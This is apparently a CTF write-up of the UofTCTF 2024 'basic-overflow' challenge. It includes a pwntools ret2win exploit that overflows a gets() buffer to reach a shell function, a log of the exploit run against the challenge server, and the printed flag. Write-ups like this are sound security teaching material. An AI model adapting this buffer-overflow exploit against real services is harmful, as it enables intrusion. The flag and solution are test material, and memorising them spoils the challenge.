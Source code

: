 # basic-overflow [316 Solves]

## Description

> This challenge is simple.
>
> It just gets input, stores it to a buffer.
>
> It calls `gets` to read input, stores the read bytes to a buffer, then exits.
>
> What is `gets`, you ask? Well, it's time you read the manual, no?
>
> `man 3 gets`
>
> Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.
>
> Author: drec
>
> `nc 34.123.15.202 5000`
>
> Attachments: basic-overflow

## Short Solution

Basic ret2win

## Solution

### Basic file checks

```console
$ file basic-overflow
basic-overflow: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9fa245805d39057f51a0a4155eb71162b48ff682, for GNU/Linux 4.4.0, not stripped

$ checksec basic-overflow
[*] '/root/ctf/UofTCTF_2024/pwn/basic-overflow/basic-overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### solver.py

```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./basic-overflow", checksec=False)


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("34.123.15.202", 5000)

    elif args.GDB:
        gdbscript = """
        c
        """
        pty = process.PTY
        io = gdb.debug([elf.path], gdbscript=gdbscript, stdin=pty, stdout=pty)
    else:
        pty = process.PTY
        io = elf.process(stdin=pty, stdout=pty)

    return io


def main():
    payload = b"A" * cyclic_find("saaa")
    payload += p64(elf.sym["shell"])

    io = conn()
    io.sendline(payload)

    io.interactive("")


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py REMOTE
[+] Opening connection to 34.123.15.202 on port 5000: Done
[DEBUG] Sent 0x51 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  36 11 40 00  00 00 00 00  │AAAA│AAAA│6·@·│····│
    00000050  0a                                                  │·│
    00000051
[*] Switching to interactive mode
id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0x1e bytes:
    b'uid=1000 gid=1000 groups=1000\n'
uid=1000 gid=1000 groups=1000
ls -la
[DEBUG] Sent 0x7 bytes:
    b'ls -la\n'
[DEBUG] Received 0xd3 bytes:
    b'total 28\n'
    b'drwxr-xr-x 1 nobody nogroup  4096 Jan 12 03:00 .\n'
    b'drwxr-xr-x 1 nobody nogroup  4096 Jan 12 03:00 ..\n'
    b'-r--r--r-- 1 nobody nogroup    37 Jan  9 02:02 flag\n'
    b'-rwxr-xr-x 1 nobody nogroup 15504 Jan  9 02:02 run\n'
total 28
drwxr-xr-x 1 nobody nogroup  4096 Jan 12 03:00 .
drwxr-xr-x 1 nobody nogroup  4096 Jan 12 03:00 ..
-r--r--r-- 1 nobody nogroup    37 Jan  9 02:02 flag
-rwxr-xr-x 1 nobody nogroup 15504 Jan  9 02:02 run
cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x25 bytes:
    b'uoftctf{reading_manuals_is_very_fun}\n'
uoftctf{reading_manuals_is_very_fun}
```

## Flag

uoftctf{reading_manuals_is_very_fun}
